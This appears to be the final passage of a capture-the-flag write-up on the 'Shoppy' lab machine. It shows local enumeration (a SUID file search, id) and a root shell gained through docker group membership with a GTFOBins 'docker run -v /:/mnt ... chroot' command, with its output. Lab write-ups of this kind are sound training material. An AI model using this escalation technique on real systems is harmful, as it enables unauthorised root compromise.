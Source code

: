 ```bash
$ whoami; hostname
deploy
shoppy
```
{: .nolineno }

We still are not the root user yet, so let’s enumerate the box for more attack vector

`sudo -l` did not work for deploy. Another command for me is to look for SUID or sticky bit

with the following `find / -perm -u=s -type f 2>/dev/null`

Unfortunately, nothing came up with these comments. In that case we went back to the enumeration again before uploading any other tool

while reading the notes we found this information disclosure on the chat between jaeger and josh

![Untitled](/Assets/Pictures/Shoppy/Untitled%2010.png)

we can verify this statement with the id command to see the groups the user belong to

```bash
$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```
{: .nolineno }

So we know now that the deploy user on shoppy has been created using docker. According to [GTFObins](https://gtfobins.github.io/gtfobins/docker/#sudo) we can exploit docker for privilege escaltion.

According to the doc, running `sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh` should give us a root shell

Let’s try, at first it did not work…we need to adjust the command to our type of shell so instead of running it with as root we will need to run it without being root, since deploy is not in the sudoers file

```bash
$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id;whoami
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
root
```
{: .nolineno }

With this we can get the root flag, and voila ! we are done

Happy Hacking !